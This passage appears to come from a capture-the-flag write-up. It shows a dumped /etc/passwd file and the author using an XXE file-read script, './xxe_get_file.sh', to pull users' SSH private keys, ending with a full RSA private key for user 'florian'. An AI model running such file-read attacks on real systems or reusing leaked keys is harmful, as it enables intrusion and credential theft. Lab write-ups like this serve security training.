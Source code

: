    hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
    kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
    pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
    rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
    saned:x:119:127::/var/lib/saned:/bin/false
    usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
    florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
    cliff:x:1001:1001::/home/cliff:/bin/bash
    mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
    sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
    ftp:x:123:130:ftp daemon,,,:/srv/ftp:/bin/false
    

And, we can get try to get ssh keys. We don’t find one for cliff:

    
    
    root@kali# ./xxe_get_file.sh /home/cliff/.ssh/id_rsa
    
    There are 4294967294 possible hosts for
    

But we do for florian:

    
    
    root@kali# ./xxe_get_file.sh /home/florian/.ssh/id_rsa
    
    There are 4294967294 possible hosts for -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA50DQtmOP78gLZkBjJ/JcC5gmsI21+tPH3wjvLAHaFMmf7j4d
    +YQEMbEg+yjj6/ybxJAsF8l2kUhfk56LdpmC3mf/sO4romp9ONkl9R4cu5OB5ef8
    lAjOg67dxWIo77STqYZrWUVnQ4n8dKG4Tb/z67+gT0R9lD9c0PhZwRsFQj8aKFFn
    1R1B8n9/e1PB0AJ81PPxCc3RpVJdwbq8BLZrVXKNsg+SBUdbBZc3rBC81Kle2CB+
    Ix89HQ3deBCL3EpRXoYVQZ4EuCsDo7UlC8YSoEBgVx4IgQCWx34tXCme5cJa/UJd
    d4Lkst4w4sptYMHzzshmUDrkrDJDq6olL4FyKwIDAQABAoIBAAxwMwmsX0CRbPOK
    AQtUANlqzKHwbVpZa8W2UE74poc5tQ12b9xM2oDluxVnRKMbyjEPZB+/aU41K1bg
    TzYI2b4mr90PYm9w9N1K6Ly/auI38+Ouz6oSszDoBeuo9PS3rL2QilOZ5Qz/7gFD
    9YrRCUij3PaGg46mvdJLmWBGmMjQS+ZJ7w1ouqsIANypMay2t45v2Ak+SDhl/SDb
    /oBJFfnOpXNtQfJZZknOGY3SlCWHTgMCyYJtjMCW2Sh2wxiQSBC8C3p1iKWgyaSV
    0qH/3gt7RXd1F3vdvACeuMmjjjARd+LNfsaiu714meDiwif27Knqun4NQ+2x8JA1
    sWmBdcECgYEA836Z4ocK0GM7akW09wC7PkvjAweILyq4izvYZg+88Rei0k411lTV
    Uahyd7ojN6McSd6foNeRjmqckrKOmCq2hVOXYIWCGxRIIj5WflyynPGhDdMCQtIH
    zCr9VrMFc7WCCD+C7nw2YzTrvYByns/Cv+uHRBLe3S4k0KNiUCWmuYsCgYEA8yFE
    rV5bD+XI/iOtlUrbKPRyuFVUtPLZ6UPuunLKG4wgsGsiVITYiRhEiHdBjHK8GmYE
    tkfFzslrt+cjbWNVcJuXeA6b8Pala7fDp8lBymi8KGnsWlkdQh/5Ew7KRcvWS5q3
    HML6ac06Ur2V0ylt1hGh/A4r4YNKgejQ1CcO/eECgYEAk02wjKEDgsO1avoWmyL/
    I5XHFMsWsOoYUGr44+17cSLKZo3X9fzGPCs6bIHX0k3DzFB4o1YmAVEvvXN13kpg
    ttG2DzdVWUpwxP6PVsx/ZYCr3PAdOw1SmEodjriogLJ6osDBVcMhJ+0Y/EBblwW7
    HF3BLAZ6erXyoaFl1XShozcCgYBuS+JfEBYZkTHscP0XZD0mSDce/r8N07odw46y
    kM61To2p2wBY/WdKUnMMwaU/9PD2vN9YXhkTpXazmC0PO+gPzNYbRe1ilFIZGuWs
    4XVyQK9TWjI6DoFidSTGi4ghv8Y4yDhX2PBHPS4/SPiGMh485gTpVvh7Ntd/NcI+
    7HU1oQKBgQCzVl/pMQDI2pKVBlM6egi70ab6+Bsg2U20fcgzc2Mfsl0Ib5T7PzQ3
    daPxRgjh3CttZYdyuTK3wxv1n5FauSngLljrKYXb7xQfzMyO0C7bE5Rj8SBaXoqv
    uMQ76WKnl3DkzGREM4fUgoFnGp8fNEZl5ioXfxPiH/Xl5nStkQ0rTA==
    -----END RSA PRIVATE KEY-----
    
